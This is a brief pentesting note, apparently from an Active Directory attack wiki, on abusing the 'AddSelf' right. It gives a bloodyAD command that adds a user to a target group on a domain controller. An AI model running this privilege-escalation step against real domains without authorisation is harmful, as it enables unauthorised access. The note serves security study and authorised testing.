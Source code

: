 # 'AddSelf' to a group

When a user has `AddSelf` rights, it has the privilege to add itself to the group.

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

To add we can do this:

{% code title="BloodyAD" overflow="wrap" %}
```bash
# installation
sudo apt install bloodyad

bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" add groupMember $TargetGroup $TargetUser
```
{% endcode %}
